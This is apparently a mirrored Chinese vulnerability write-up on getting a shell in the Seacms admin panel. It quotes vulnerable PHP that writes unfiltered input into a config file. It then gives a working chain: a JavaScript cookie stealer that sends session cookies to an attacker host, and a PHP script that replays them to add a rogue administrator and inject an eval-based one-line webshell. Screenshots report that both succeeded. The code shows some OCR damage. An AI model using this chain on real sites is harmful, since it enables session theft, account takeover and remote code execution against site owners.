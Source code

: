 # Seacms getshell

> 原文：[https://www.zhihuifly.com/t/topic/3112](https://www.zhihuifly.com/t/topic/3112)

# Seacms 后台getshell

## 一、漏洞简介

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

## 二、漏洞影响

## 三、复现过程

后台代码如下

```
<?php

header(‘Content-Type:text/html;charset=utf-8’);

require_once(dirname(**FILE**)."/config.php");

CheckPurview();

if($action==“set”)

{

```
$v= $_POST['v'];

$ip = $_POST['ip'];

$open=fopen("../data/admin/ip.php","w" );

$str='&lt;?php ';

$str.='$v = "';

$str.="$v";

$str.='"; ';

$str.='$ip = "';

$str.="$ip";

$str.='"; ';

$str.=" ?&gt;";

fwrite($open,$str);

fclose($open);

ShowMsg("成功保存设置!","admin_ip.php");

exit; 
```

} `?>` 
```

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

```
# test.js

var img = new Image();

img.src=  “[http://127.0.0.1/test.php?x=](http://127.0.0.1/test.php?x=)” + document.cookie + “&p=” + location.pathname;

# test.php

<?php

```
function Requests($url, $data, $cookie = '', $type = 1){

    $ch = curl_init();

    $params[CURLOPT_URL] = $url;

       $params[CURLOPT_HEADER] = FALSE;

    $params[CURLOPT_SSL_VERIFYPEER] = false;

    $params[CURLOPT_SSL_VERIFYHOST] = false;

    $params[CURLOPT_RETURNTRANSFER] = true;

    if ($type === 1) {

        $params[CURLOPT_POST] = true;

        $params[CURLOPT_POSTFIELDS] = $data;

    }

    $params[CURLOPT_COOKIE] = $cookie;

    curl_setopt_array($ch, $params);

    $output = curl_exec($ch);

    file_put_contents('log.txt', $output, FILE_APPEND);

    curl_close($ch);

}

$C = $_GET['x'];

$P = $_GET['p'];

$P = substr($P, 0, strlen($P)-21);

file_put_contents('c.txt', $C);

file_put_contents('p.txt', $P);

$url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

$url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

$data_1 = 'username=test&amp;pwd=test&amp;pwd2=test&amp;groupid=1';

$data_2 = 'v=0&amp;ip=+";@eval($_POST[qwer]);"';

Requests($url_1, $data_1, $C);

Requests($url_2, $data_2, $C); 
``` 
```

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![image](img/283faa3b8758a5513226ac6689fe5a5f.png)

代码已经写进了后

![image](img/2450b548774ab8805b7773eb95543f11.png)

管理员添加成功

![image](img/0e4c6cce6168c7ec9e8a759319d88fdd.png)

一句话也写进去了